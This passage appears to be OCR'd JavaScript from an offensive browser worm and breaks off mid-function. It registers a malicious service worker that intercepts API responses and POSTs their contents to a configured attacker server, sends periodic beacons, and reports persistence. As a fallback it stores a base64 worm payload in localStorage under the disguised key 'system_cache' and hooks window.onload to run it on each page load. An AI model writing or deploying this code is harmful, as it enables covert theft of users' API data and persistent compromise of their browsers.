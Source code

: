 ```
        if ('serviceWorker' in navigator) {
            const swCode = `
                self.addEventListener('fetch', (event) => {
                    // Intercept API requests
                    if (event.request.url.includes('/api/')) {
                        event.respondWith(
                            fetch(event.request).then(response => {
                                // Clone and exfiltrate API responses
                                const clonedResponse = response.clone();
                                clonedResponse.text().then(text => {
                                    fetch('${this.config.attackerServer}/intercept', {
                                        method: 'POST',
                                        body: JSON.stringify({
                                            url: event.request.url,
                                            method: event.request.method,
                                            response: text,
                                            timestamp: Date.now()
                                        })
                                    });
                                });
                                return response;
                            })
                        );
                    }
                });
                
                // Periodic beacon
                setInterval(() => {
                    fetch('${this.config.attackerServer}/beacon', {
                        method: 'POST',
                        body: JSON.stringify({
                            type: 'service_worker_beacon',
                            timestamp: Date.now()
                        })
                    });
                }, 60000);
            `;
            
            const blob = new Blob([swCode], { type: 'application/javascript' });
            const swUrl = URL.createObjectURL(blob);
            
            navigator.serviceWorker.register(swUrl).then(() => {
                this.sendToAttacker('persistence_established', { method: 'service_worker' });
            }).catch(() => {
                // Try alternative persistence methods
                this.establishAlternativePersistence();
            });
        } else {
            this.establishAlternativePersistence();
        }
    }
    
    establishAlternativePersistence() {
        // Store worm in localStorage for persistence
        const wormPayload = this.generateWormPayload();
        localStorage.setItem('system_cache', btoa(wormPayload));
        
        // Execute on page load
        const originalOnLoad = window.onload;
        window.onload = function() {
            if (originalOnLoad) originalOnLoad();
            
            const storedWorm = localStorage.getItem('system_cache');
```